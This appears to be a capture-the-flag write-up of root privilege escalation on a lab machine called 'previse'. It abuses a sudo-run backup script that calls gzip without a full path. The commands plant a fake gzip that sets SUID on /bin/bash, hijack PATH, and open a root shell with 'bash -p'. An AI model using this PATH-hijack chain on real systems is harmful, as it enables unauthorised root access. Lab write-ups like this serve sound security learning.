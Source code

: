 uhm...yeah ok a custom script

`cat /opt/scripts/access_backup.sh`

```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account

# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)\_file_access.gz
```

path injecton is possible with gzip execution

FFirst we create a fake gzip binary with SUID and make it executable

```bash
m4lwhere@previse:/tmp$ echo "chmod +s /bin/bash" > gzip
m4lwhere@previse:/tmp$ chmod +x gzip
```

Export path as we are in tmp folder
`m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH`

we execute the vulnerable script with sudo which execute our gzip over true one (PATH priority is from left to right)

```bash
m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh
[sudo] password for m4lwhere:
```

Then we set suid to original /bin/bash which runs as root now

```bash
m4lwhere@previse:/tmp$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun 6 2019 /bin/bash
m4lwhere@previse:/tmp$ bash -p
bash-4.4#
```

the last part was tricky so note that I googled before doing it

```text
-p Turned on whenever the real and effective user ids do not match.
Disables processing of the $ENV file and importing of shell
functions. Turning this option off causes the effective uid and
gid to be set to the real uid and gid.
```

Now we are root

```bash
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
```

And its Done!
